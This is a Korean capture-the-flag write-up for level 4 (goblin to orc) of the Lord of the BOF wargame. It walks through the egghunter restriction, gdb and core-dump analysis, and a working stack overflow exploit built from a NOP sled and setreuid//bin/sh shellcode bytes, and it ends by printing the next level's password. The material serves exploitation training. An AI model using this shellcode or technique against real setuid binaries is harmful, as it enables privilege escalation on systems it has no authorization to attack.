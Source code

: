 ```yaml
---
title: LOB 4번 goblin -> orc Write-up
date: 2017-9-9 9:35:00
categories: LOB
tags: LOB, goblin, orc, egghunter
---
```


## LOB 4번

    [goblin@localhost goblin]$ bash2
    [goblin@localhost goblin]$ ls -l
    total 20
    -rwsr-sr-x    1 orc      orc         12567 Feb 26  2010 orc
    -rw-r--r--    1 root     root          505 Mar 29  2010 orc.c
    [goblin@localhost goblin]$ cat orc.c
    /*
            The Lord of the BOF : The Fellowship of the BOF
            - orc
            - egghunter
    */
    
    #include <stdio.h>
    #include <stdlib.h>
    
    extern char **environ;
    
    main(int argc, char *argv[])
    {
            char buffer[40];
            int i;
    
            if(argc < 2){
                    printf("argv error\n");
                    exit(0);
            }
    
            // egghunter
            for(i=0; environ[i]; i++)
                    memset(environ[i], 0, strlen(environ[i]));
    
            if(argv[1][47] != '\xbf')
            {
                    printf("stack is still your friend.\n");
                    exit(0);
            }
    
            strcpy(buffer, argv[1]);
            printf("%s\n", buffer);
    }

###  제약사항
EggHunter란 메모리에서 egg, 즉 특정한 값을 찾는 코드라고 생각하면 된다.
첫줄에 있는 `extern char **environ`은 환경변수에 대한 리스트 포인터이며 바로 뒤에 나오는 `//egghunter`에서 for문을 돌리면서 NULL값이 나올 때까지 값을 모두 0으로 덮어씌운다. 따라서 환경변수를 사용할 수 없는 것이다.

또한 `argv[1][47] != '\xbf'`이 부분에서 전달받은 인자값의 48번째 값이 \xbf가 아닐 경우 프로그램을 끊어 버리므로 덮어쓸때 \xbf로 입력해 주어야 한다.

    [goblin@localhost goblin]$ cp orc orc1
    [goblin@localhost goblin]$ ls
    orc  orc.c  orc1
    [goblin@localhost goblin]$ gdb orc1
    GNU gdb 19991004
    Copyright 1998 Free Software Foundation, Inc.
    GDB is free software, covered by the GNU General Public License, and you are
    welcome to change it and/or distribute copies of it under certain conditions.
    Type "show copying" to see the conditions.
    There is absolutely no warranty for GDB.  Type "show warranty" for details.
    This GDB was configured as "i386-redhat-linux"...
    (gdb) disass main
    Dump of assembler code for function main:
    0x8048500 <main>:       push   %ebp
    0x8048501 <main+1>:     mov    %esp,%ebp
    0x8048503 <main+3>:     sub    $0x2c,%esp
    0x8048506 <main+6>:     cmpl   $0x1,0x8(%ebp)
    0x804850a <main+10>:    jg     0x8048523 <main+35>
    0x804850c <main+12>:    push   $0x8048630
    0x8048511 <main+17>:    call   0x8048410 <printf>
    0x8048516 <main+22>:    add    $0x4,%esp
    0x8048519 <main+25>:    push   $0x0
    0x804851b <main+27>:    call   0x8048420 <exit>
    0x8048520 <main+32>:    add    $0x4,%esp
    0x8048523 <main+35>:    nop
    0x8048524 <main+36>:    movl   $0x0,0xffffffd4(%ebp)
    0x804852b <main+43>:    nop
    0x804852c <main+44>:    lea    0x0(%esi,1),%esi
    0x8048530 <main+48>:    mov    0xffffffd4(%ebp),%eax
    0x8048533 <main+51>:    lea    0x0(,%eax,4),%edx
    0x804853a <main+58>:    mov    0x8049750,%eax
    0x804853f <main+63>:    cmpl   $0x0,(%eax,%edx,1)
    0x8048543 <main+67>:    jne    0x8048547 <main+71>
    0x8048545 <main+69>:    jmp    0x8048587 <main+135>
    0x8048547 <main+71>:    mov    0xffffffd4(%ebp),%eax

40바이트의 버퍼와 4바이트의 정수형 변수를 확보하므로 gdb에서 확인할 수 있듯이 0x2c, 즉 44바이트를 확보하고 있다.
따라서 메모리구조는 아래와 같다.

|buffer(40byte)|i(4byte)|SFP(4byte)|RET(4byte)|

    [goblin@localhost goblin]$ ./orc `python -c 'print "\x90" * 50'`
    stack is still your friend.
    [goblin@localhost goblin]$ ./orc `python -c 'print "\x90"*47 + "\xbf"'`
    ¿
    Segmentation fault

이처럼 `argv[1][47]`, 즉 48번째 값이 `\xbf`가 되어야만 Segmentation Fault가 나온다. \xbf는 레드햇에서 스택의 시작 주소로 RET의 시작값이 \xbf인지 확인하는 것이다.

    printf("%p\n", buffer);
    
이 한줄의 코드는 buffer의 메모리 주소를 출력해주는 코드로, if문 앞에 넣어 주었다.

    [goblin@localhost goblin]$ ./orc1 1234
    0xbffffb40
    stack is still your friend.

이렇게 buffer의 주소가 나오긴 나왔는데 익스플로잇이 잘 안되어서 코어 파일로 주소를 다시 받아봤다.

    [goblin@localhost goblin]$ ./orc1 `python -c 'print "\x90"*44+"\x04\xfa\xff\xbf"+"A"*256+"\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80"'`
    
    0xbffff9d0
    릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱?풞AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA1육1?됁돿1육F?
    Illegal instruction (core dumped)

이렇게 코어 파일을 생성한 후 gdb로 분석하면 된다.

    [goblin@localhost goblin]$ gdb -q -c core
    Core was generated by `./orc1 릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱L?풞AAAAAAAAAAAAAAAAAAAAAAA'.
    Program terminated with signal 11, Segmentation fault.
    #0  0xbffffb69 in ?? ()
    (gdb) x/20s $esp
    0xbffff9ff:      "?, 'A' <repeats 199 times>...
    0xbffffac7:      'A' <repeats 57 times>, "1육1?200\211?211?육F?200"
    0xbffffb11:      "??
    0xbffffb15:      ""
    0xbffffb16:      ""

nop sled로 \x90을 256번 반복해주었으니 넉넉하게 RET주소를 0xbffffac7로 잡고 넣어봤다.

    [goblin@localhost goblin]$ ./orc `python -c 'print "\x90"*44+"\xc7\xfa\xff\xbf"+"\x90"*256+"\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`
    릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱혓퓧릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱?릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱1육1?됁돿1육F?1픐h//shh/bin됥PS됣1柰
                          ?
    bash$ id
    uid=504(orc) gid=503(goblin) egid=504(orc) groups=503(goblin)
    bash$ my-pass
    euid = 504
    cantata

